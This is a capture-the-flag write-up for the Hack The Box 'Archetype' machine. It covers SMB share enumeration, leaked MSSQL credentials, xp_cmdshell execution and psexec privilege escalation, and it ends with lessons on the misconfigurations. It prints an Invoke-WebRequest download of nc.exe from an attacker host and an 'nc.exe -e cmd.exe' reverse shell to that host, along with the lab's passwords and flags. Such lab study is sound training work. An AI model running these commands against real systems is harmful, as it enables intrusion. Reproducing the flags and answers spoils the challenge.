# HTB — Archetype (Starting Point Tier 2)
**Date:** June 12, 2026
**Difficulty:** Very Easy
**OS:** Windows

## Tasks
* **Task 1:** Which TCP port is hosting a database server? **1433**
* **Task 2:** What is the name of the non-Administrative share available over SMB? **backups**
* **Task 3:** What is the password identified in the file on the SMB share? **M3g4c0rp123**
* **Task 4:** What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? **mssqlclient.py**
* **Task 5:** What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? **xp_cmdshell**
* **Task 6:** What script can be used in order to search possible paths to escalate privileges on Windows hosts? **winpeas**
* **Task 7:** What file contains the administrator's password? **ConsoleHost_history.txt**

## Objective
Enumerate misconfigured SMB shares to leak database credentials, use those credentials to authenticate to Microsoft SQL Server, and leverage `xp_cmdshell` to gain initial access. Automate system enumeration with WinPEAS to discover a PowerShell history file containing cleartext Administrator credentials, and escalate privileges using `psexec`.

## Tools Used
- nmap
- smbclient
- impacket-mssqlclient
- impacket-psexec
- netcat (nc)
- python (http.server)
- winpeas

## Methodology
1. Ran `nmap` to discover open ports → found port 445 (SMB) and 1433 (MSSQL).
2. Enumerated SMB shares using `smbclient` with a null session and discovered the `backups` share.
3. Downloaded the `prod.dtsConfig` file from the share, which contained hardcoded credentials for the `sql_svc` user.
4. Used Impacket's `mssqlclient.py` to authenticate to the MSSQL database.
5. Enabled `xp_cmdshell` to achieve remote command execution on the target.
6. Hosted a netcat binary locally and used `Invoke-WebRequest` via `xp_cmdshell` to upload it to the target.
7. Triggered a reverse shell back to a local `netcat` listener to get a foothold as `sql_svc` and retrieve the user flag.
8. Uploaded and ran `winpeas` to automate system enumeration, which highlighted the path to the PowerShell history file.
9. Investigated the discovered PowerShell history file (`ConsoleHost_history.txt`) and uncovered plain-text Administrator credentials.
10. Used Impacket's `psexec.py` with the newly found credentials to spawn a SYSTEM-level shell and retrieve the root flag.

## Step-by-Step

**Step 1: Enumeration**
An Nmap scan reveals multiple open ports, notably 445 (SMB) and 1433 (Microsoft SQL Server).



**Step 2: SMB Share Enumeration**
We use `smbclient` with the `-N` flag (no password) to list available shares. We spot a non-administrative share named `backups`.



Connecting to the `backups` share, we run `ls` and find a file named `prod.dtsConfig`.



**Step 3: Leaking Credentials**
We use the `get` command to download the `prod.dtsConfig` file to our local machine.



Reading the file with `cat`, we find a database connection string containing the credentials: `User ID=ARCHETYPE\sql_svc` and `Password=M3g4c0rp123`.



**Step 4: MSSQL Authentication & Code Execution**
Armed with credentials, we use Impacket's `mssqlclient.py` to log into the database server. Our initial attempt to run standard OS commands like `ls` fails because we are in an SQL context.



To execute system commands, we must enable `xp_cmdshell`. We run `enable_xp_cmdshell` and verify execution by running `xp_cmdshell whoami`, which confirms we are running as `archetype\sql_svc`.



**Step 5: Reverse Shell Preparation**
We set up a netcat listener on port 1337 (`nc -nvlp 1337`) to catch our incoming shell.



Next, we copy the Windows `nc.exe` binary to our working directory.



We start a Python HTTP server (`python -m http.server 8000`) so the target machine can download the netcat executable.



**Step 6: Uploading and Executing the Payload**
Using `xp_cmdshell`, we invoke a PowerShell command to download `nc.exe` from our Python server and save it to the target's `Downloads` folder:
`xp_cmdshell powershell -c Invoke-WebRequest -Uri http://10.10.15.164:8000/nc.exe -OutFile C:\Users\sql_svc\Downloads\nc.exe`



With the binary on the system, we execute it via `xp_cmdshell` to send a reverse shell to our listener:
`xp_cmdshell C:\Users\sql_svc\Downloads\nc.exe -e cmd.exe 10.10.15.164 1337`



**Step 7: Catching the Shell & User Flag**
Our netcat listener catches the connection, granting us a shell as `sql_svc`.



Navigating to the user's Desktop, we retrieve the `user.txt` flag.



**Step 8: System Enumeration with WinPEAS**
To systematically search for privilege escalation vectors, we can automate our enumeration using `winpeas`. By hosting the WinPEAS executable on our local Python HTTP server, we can download it directly to our target machine using the `sql_svc` shell. Running the script performs a comprehensive check of the system. Amidst its output, WinPEAS highlights the PowerShell console history file as a point of interest, providing us with the exact file path.

**Step 9: Privilege Escalation Reconnaissance**
Following the path discovered by WinPEAS, we check the PowerShell history file located at `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`. Reading the file reveals that the Administrator previously mapped a network drive, exposing the password `MEGACORP_4dm1n!!` in cleartext.



**Step 10: Gaining SYSTEM Access & Root Flag**
With the Administrator credentials in hand, we use Impacket's `psexec.py` to authenticate over SMB and spawn an interactive SYSTEM shell.



We navigate to the Administrator's Desktop.



Finally, we read the `root.txt` file to fully compromise the machine.



## Key Learning
Anonymous or poorly configured SMB shares often leak sensitive files like configuration backups. If these files contain database credentials, an attacker can authenticate to the backend server. Furthermore, leaving debugging or administrative features like `xp_cmdshell` enabled in MSSQL trivializes the jump from database access to full operating system command execution. For privilege escalation, automated enumeration tools like `winpeas` are invaluable for quickly identifying misconfigurations or sensitive files. Finally, administrators should be wary of typing cleartext credentials into PowerShell, as command history is logged by default in modern Windows environments.

## Flags
**User Flag:** `3e7b102e78218e935bf3f4951fec21a3`

**Root Flag:** `b91ccec3305e98240082d4474b848528`